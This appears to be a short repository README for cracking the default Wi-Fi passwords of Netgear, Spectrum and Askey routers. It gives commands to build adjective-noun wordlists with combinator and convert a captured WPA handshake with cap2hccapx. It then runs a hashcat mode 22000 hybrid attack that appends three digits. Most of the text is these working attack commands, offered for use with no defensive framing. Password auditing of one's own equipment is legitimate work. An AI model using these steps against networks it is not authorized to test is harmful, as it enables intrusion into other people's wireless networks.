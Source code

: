 # NetgearXX / MyCharterWifiXX / MySpectrumWifiXX / SpectrumSetup-XX / SpectrumwifiXXXX

### dicts/netgear-spectrum
* Netgear / Sagemcom  - adj_noun.txt should be sufficent

```combinator.exe adjective.txt noun.txt > adj_noun.txt```

* Askey - also try noun_adj.txt and noun_noun.txt

```combinator.exe noun.txt adjective.txt > noun_adj.txt```

```combinator.exe noun.txt noun.txt > noun_noun.txt```

* Convert pcap

```cap2hccapx.exe WPAhandshake.pcap WPAhandshake.hccapx```

* Use hashcat to crack

```Hashcat.exe -m 22000 -a 6 WPAhandshake.hccapx adj_noun.txt ?d?d?d```



